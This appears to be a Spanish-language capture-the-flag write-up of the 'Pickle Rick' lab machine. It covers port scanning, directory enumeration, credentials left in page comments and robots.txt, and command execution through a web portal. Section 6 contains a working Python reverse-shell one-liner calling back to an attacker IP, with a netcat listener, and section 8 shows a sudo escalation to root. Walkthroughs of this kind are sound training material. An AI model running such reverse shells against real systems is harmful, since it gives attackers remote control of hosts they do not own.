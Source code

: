 # Informe de Análisis de Nmap - Rick.thm

## Introducción

Este informe detalla el proceso de enumeración y análisis inicial realizado sobre el host `rick.thm` (10.10.229.244) utilizando la herramienta Nmap. Se describen los hallazgos relevantes, los servicios expuestos, así como los pasos siguientes para la explotación y escalada de privilegios.

## 1. Escaneo de Puertos con Nmap

El primer paso fue realizar un escaneo de puertos con Nmap utilizando las opciones `-A -sT`, que permiten la detección avanzada de servicios y sistemas operativos. Se guardó la salida en un archivo `resultado.txt` para su posterior análisis.

### Comando utilizado:

```bash
nmap -A -sT rick.thm -oN resultado.txt
```

### Resultados obtenidos:

```markdown
Host: rick.thm (10.10.229.244)
Estado: Activo (latencia 0.18s)
Puertos abiertos:
- **22/tcp**: OpenSSH 8.2p1 (Ubuntu 4ubuntu0.11)
- **80/tcp**: Apache HTTP 2.4.41 (Ubuntu)
```

## 2. Análisis del Código Fuente del Sitio Web

Se encontró un comentario en el código fuente con el nombre de usuario:

![](pickle%20rick1.png)

```html
<!-- Username: R1ckRul3s -->
```

## 3. Exploración de Directorios con Gobuster

Se utilizó **Gobuster** para la búsqueda de directorios ocultos y archivos accesibles:

```bash
gobuster dir -u http://rick.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

### Resultados encontrados:

```markdown
/login.php            (Status: 200)
/index.html           (Status: 200)
/assets               (Status: 301)
/portal.php           (Status: 302) -> /login.php
/robots.txt           (Status: 200)
```

En `robots.txt`, se encontró la siguiente información:

```plaintext
WubbaLubbaDubDub
```

## 4. Autenticación en el Portal Web

Se intentó el acceso en `/login.php` con las credenciales:

- **Usuario:** `R1ckRul3s`
- **Contraseña:** `WubbaLubbaDubDub`

El acceso fue exitoso y se redirigió al portal `/portal.php`.

## 5. Descubrimiento de Archivos Mediante Comandos

![](pickle%20rick2.png)

Dentro del portal, en la pestaña **Commands**, se ejecutó `ls`, obteniendo:

```plaintext
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Dado que otros archivos estaban bloqueados, se intentó acceder directamente a `http://rick.thm/Sup3rS3cretPickl3Ingred.txt`, lo cual permitió encontrar el primer ingrediente.

## 6. Creación de una Consola de Conexión Remota

Para obtener acceso interactivo al sistema, se estableció una **reverse shell** utilizando Python.

### Comando utilizado en el servidor (Rick.thm):

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.17.22",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Configuración en la máquina atacante:

```bash
nc -lvnp 4444
```

Tras la ejecución de estos comandos, se logró acceso remoto al sistema.

## 7. Obtención de Información Clave

Al explorar el sistema, en la ruta `/home/rick/`, se encontró un archivo llamado **"second ingredients"**. Al visualizar su contenido, se obtuvo la clave secreta:

```plaintext
********
```

## 8. Escalada de Privilegios

Se detectó que el usuario podía ejecutar comandos con `sudo`, lo que permitió escalar privilegios con el siguiente comando:

```bash
sudo /bin/bash
```

Una vez en modo root, se accedió al archivo en `/root/3rd.txt`, obteniendo el último ingrediente:

```plaintext
**********
```

## 9. Conclusión y Pasos Finales

- Se logró acceso inicial al sistema mediante credenciales obtenidas en el código fuente.
- Se identificaron archivos clave en el sistema y se accedió a información sensible.
- Se escaló privilegios con `sudo` y se accedió al último ingrediente.
